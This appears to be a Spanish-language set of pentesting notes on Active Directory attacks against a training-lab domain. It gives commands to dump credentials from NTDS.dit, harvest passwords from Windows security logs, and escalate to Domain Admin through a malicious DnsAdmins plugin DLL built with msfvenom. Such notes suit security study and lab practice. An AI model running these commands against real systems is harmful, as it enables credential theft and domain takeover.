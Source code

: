 ##### 4) Extraer las credenciales del NTDS.dit
###### windows:
        Import-Module .\DSInternals.psd1

Luego:
        $key = Get-BootKey -SystemHivePath .\SYSTEM

Y luego dumpeamos con:

        Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
###### Linux:
        secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
        
#### También podemos dumpear los registros de Sam y system:
Seguir los pasos:

https://github.com/LaPorota/LaPorota_suite/blob/main/infraestructura/windows/Sam_attack


********
--------

## Abuso de privilegios de grupos

### Abuso de Event log readers
Si pertenecemos al grupo de "Event Log Readers" podemos recorrer los logs de seguridad para robar passwords
#### Con wevutil:
        wevtutil qe Security /rd:true /f:text | Select-String "/user"
    
#### Con Get-WinEvent
        Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

### Abuso del "DnsAdmins" group

Los miembros del DnsAdmins group pueden correr algunos binarios como administradores del DC, esto quiere decir que podríamos agregar un Domain Admin.

#### 1) creamos el binario
        msfvenom -p windows/x64/exec cmd='net group "domain admins" <user> /add /domain' -f dll -o adduser.dll

#### 2)Lo hacemos llegar a la pc víStima
#### 3) Ejecutamos el comando para que la pc nos reconozca (si no lo hizo aún) como miebros del DnsAdmins
        Get-ADGroupMember -Identity DnsAdmins
#### 4) Corremos el binario por medio de dnscmd y serverlevelplugindll
        dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
#### 5) Stopeamos el servicio de dns
        sc stop dns
#### 6) Lo iniciamos nuevamente
        sc start dns
#### 7) Comprobamos si estamos ya dentro del domain admins group
        net group "Domain Admins" /dom
#### 8) Nos deslogueamos y volvemos a loguear para que se refresque el token de windows.
